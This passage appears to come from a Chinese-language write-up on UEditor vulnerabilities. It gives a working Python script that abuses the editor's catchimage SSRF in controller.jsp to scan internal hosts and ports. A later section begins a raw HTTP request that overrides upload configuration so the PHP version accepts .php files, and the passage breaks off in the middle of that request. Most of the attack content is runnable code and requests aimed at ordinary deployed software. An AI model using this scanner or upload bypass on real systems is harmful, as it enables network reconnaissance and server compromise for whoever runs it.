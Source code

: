 ![image](https://user-images.githubusercontent.com/84888757/161593788-c6f8dd7d-dda1-4001-9f59-e00680a8a4fc.png)

![image](https://user-images.githubusercontent.com/84888757/161594141-34521f79-0001-4697-90dd-dc00d44a184b.png)

SSRF后续思路：

-  进行内网主机和端口探测。
-  访问开放的端口 -> 获取返回的一些特征 -> 识别在该服务器上部署的服务与应用。
-  针对性地采用一些payload去判断是否存在漏洞。

SSRF内网探测的脚本 @猎户攻防实验室
```
import sys
import json
import requests
from IPy import IP


def check(url, ip, port):
    url = '%s/jsp/controller.jsp?action=catchimage&source[]=http://%s:%s/0f3927bc-5f26-11e8-9c2d-fa7ae01bbebc.png' % (url, ip, port)
    res = requests.get(url)
    result = res.text
    result = result.replace("list","\"list\"")
    res_json = json.loads(result)
    state = res_json['list'][0]['state']
    if state == '远程连接出错'or state == 'SUCCESS':
        print(ip, port, 'is Open')
    else:
        print(ip, port, 'is Close')


def main(url, ip):
   ips = IP(ip)
   ports = [80,8080]
   for i in ips:
        for port in ports:
            check(url, i, port)


if __name__ == '__main__':
   url = sys.argv[1]
   ip = sys.argv[2]
   main(url, ip)
```
# 0x04 文件上传漏洞
## 4.1 PHP 版本的文件上传
```
POST /xxxxxx/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 222
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36
Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxA
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
```